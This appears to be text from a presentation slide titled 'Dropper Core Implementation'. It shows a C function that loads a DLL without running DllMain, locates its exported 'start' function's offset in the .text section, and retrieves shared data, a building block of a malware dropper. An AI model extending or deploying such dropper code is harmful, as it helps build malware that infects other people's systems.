

Dropper Core Implementation
VOID LoadDllStub(LPCSTR FileName)
{
	// Load the module into the current memory without executing DllMain
	DllBase = (DWORD)LoadLibraryExA(FileName, NULL, DONT_RESOLVE_DLL_REFERENCES);

	// Obtain the start function from the dll and calculate its intra-section offset
              //(load base address + section base address + intra-section offset)
	DWORD Start = (DWORD)GetProcAddress((HMODULE)DllBase, "start");
	StartOffset = Start - DllBase - GetSection(DllBase, ".text")->VirtualAddress;

	// Share Data
	ShareData = (PSHAREDATA)GetProcAddress((HMODULE)DllBase, "ShareData");
}